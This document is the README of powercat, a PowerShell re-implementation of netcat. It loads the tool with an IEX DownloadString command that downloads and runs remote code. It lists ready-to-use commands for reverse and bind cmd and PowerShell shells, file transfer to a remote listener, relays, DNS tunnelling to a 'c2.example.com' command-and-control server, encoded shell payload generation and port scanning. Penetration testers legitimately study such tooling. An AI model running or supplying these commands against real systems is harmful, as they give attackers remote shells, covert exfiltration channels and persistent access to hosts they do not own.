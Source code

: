 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes
    
File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Recieve File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and server shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a dnscat2 server with -dns.
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Send Data To the c2.example.com dnscat2 server, sending queries to the dns server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp shell script which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -g
    Generate a bind tcp shell encoded command which listens on port 8000:
        powercat -l -p 8000 -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep

